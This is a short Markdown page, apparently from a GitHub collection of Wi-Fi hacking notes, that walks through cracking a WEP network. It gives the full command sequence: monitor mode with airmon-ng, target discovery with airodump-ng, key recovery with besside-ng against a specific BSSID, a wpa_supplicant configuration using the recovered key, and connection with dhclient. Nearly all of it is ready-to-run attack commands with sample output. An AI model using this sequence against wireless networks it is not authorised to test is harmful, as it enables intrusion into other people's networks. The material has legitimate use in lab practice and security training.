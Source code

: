 WEP Crack
===
🔙 [MENU README](../README.md)


![](../_src/WEPCrack.png)
> 透過抓取IV完成破解
```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --manufacturer --wps --band bga
# 找到WEP wifi
# #Data > 一直有在傳輸資料
# CH    > 1
# ENC   > 加密方式為WEP

sudo airodump-ng wlan0mon --manufacturer --wps --band bga --channel 1
```

Attack
```bash
sudo besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan0mon -v

# Got key for wifi-old [11:bb:33:cd:55]
```
Change Conf
```bash
# wpa_supplicant.conf

network={
    ssid="wifi-guest"
    key_mgmt=NONE
    wep_key0=11bb33cd55
    wep_tx_keyidx=0
}
```
Try Connect
```bash
# connect
sudo wpa_supplicant -D nl80211 -i wlan2 -c wpa_supplicant.conf
# get IP
sudo dhclient wlan2 -v

# http://192.168.19.1
```